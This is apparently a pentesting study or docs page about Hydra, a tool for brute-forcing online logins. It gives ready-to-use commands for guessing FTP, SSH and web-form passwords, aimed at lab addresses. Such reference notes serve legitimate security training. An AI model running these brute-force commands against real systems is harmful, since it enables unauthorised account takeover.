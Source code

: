 ```yaml
---
title: Hydra
sidebar_position: 1
description: Online login forms and password cracking tool.
---
```


## Hydra Introduction
- Hydra is a brute force online password cracking program, a quick system login password "hacking" tool.
- Hydra supports SSH, Web Application Form, FTP or SNMP.

## Basic commands

### FTP

```
hydra -l user -P passlist.txt ftp://MACHINE_IP
```

### SSH

```
hydra -l <username> -P <full path to pass> 10.10.124.243 -t 4 ssh
```
- `-l` - Username
- `-P` - Password list
- `-t` - Number of threads (Optional)
- For example: `hydra -l root -P passwords.txt 10.10.124.243 -t 4 ssh`

### Post Web Form

```
sudo hydra -l <username> -P <wordlist> 10.10.124.243 http-post-form "<path>:<login_credentials>:<invalid_response>"
```
- `http-post-form` - Method type
- `<path>` - URL. For example: login.php
- `<login_credentials>` - the username and password used to log in. For example: username=^USER^&password=^PASS^
- `<invalid_response>` - String in response when login fails.
- `-V` - Verbose output

- For example: `hydra -l <username> -P <wordlist> 10.10.124.243 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`